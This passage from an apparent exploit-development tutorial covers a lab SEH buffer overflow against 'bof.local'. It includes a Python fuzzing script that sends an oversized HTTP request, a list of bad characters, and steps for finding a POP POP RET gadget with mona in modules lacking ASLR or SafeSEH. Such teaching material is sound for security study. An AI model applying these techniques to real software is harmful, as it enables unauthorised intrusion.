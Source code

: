 ```python
payload += "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.92 Safari/537.36\r\n"
payload += "Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8"


print "[*] Starting to Fuzz GET Variable with %s bytes" %len(payload)
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect=s.connect(('bof.local',80))
print "[*] Connected to bof.local on Port 80"
s.send((payload))
s.close()
print "[*] Finished Fuzzing GET Variable with %s bytes" %len(payload)
```





Providing we rinse-repeat this and find all the dead characters in memory dump we will find what we need, in this case my findings were

```bash
\x00\x0d\x0a\x0c\x20\x25\x2b\x2f\x5c
```







### Finding POP POP RET Instruction





As I have already covered this extensively throughout this article I will jump straight into the action and find a module that contains a `pop pop ret` instruction.



Of course once again we will use **mona** to accomplish this with the handy command below



```python
!mona seh
```



Of course here the goal is to find a module that was not compiled with any security restrictions such as **ASLR**, **Safe SEH** etc.



You will notice that when running `!mona seh` it displays 10 results in the log window and none of them are really suitable and it's easy to get confused here and start wondering if there is even a module to use. However! If you check the `seh.txt` file located in the working directory of **mona** you will find a very large `.txt` file that contains hundreds, maybe even thousands of usable modules.

